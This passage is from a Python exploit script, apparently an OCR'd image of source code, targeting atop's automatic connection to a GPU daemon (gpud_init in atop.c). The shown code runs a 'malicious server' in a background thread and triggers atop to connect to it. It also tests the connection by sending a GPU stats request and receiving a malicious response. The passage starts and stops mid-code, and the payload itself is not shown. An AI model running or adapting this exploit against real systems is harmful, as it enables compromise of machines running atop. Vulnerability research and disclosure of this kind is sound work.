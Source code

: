             # Simulate ATOP's initial GPU request
            gpu_request = b"GET_GPU_STATS\n"
            test_socket.send(gpu_request)
            
            # Receive malicious response
            response = test_socket.recv(4096)
            print(f"[+] Received malicious response: {len(response)} bytes")
            
            test_socket.close()
            
        except Exception as e:
            print(f"[-] Connection test failed: {e}")
    
    def exploit(self):
        """
        Execute the complete automatic connection exploit
        """
        print("=" * 60)
        print("ATOP Automatic Daemon Connection Exploit")
        print("Target: atop.c lines 777-790 (gpud_init)")
        print("=" * 60)
        
        # Start malicious server in background thread
        server_thread = threading.Thread(target=self.start_malicious_server)
        server_thread.daemon = True
        server_thread.start()
        
        # Wait for server to start
        time.sleep(2)
        
        # Trigger connection for demonstration
        self.trigger_atop_connection()
        
        # Keep server running
        try:
            while True:
                time.sleep(1)
        except KeyboardInterrupt:
            print("\n[+] Shutting down malicious server...")
            self.running = False
            if self.server_socket:
                self.server_socket.close()

def main():
    if len(sys.argv) > 1:
        listen_port = int(sys.argv[1])
    else:
        listen_port = 4321
        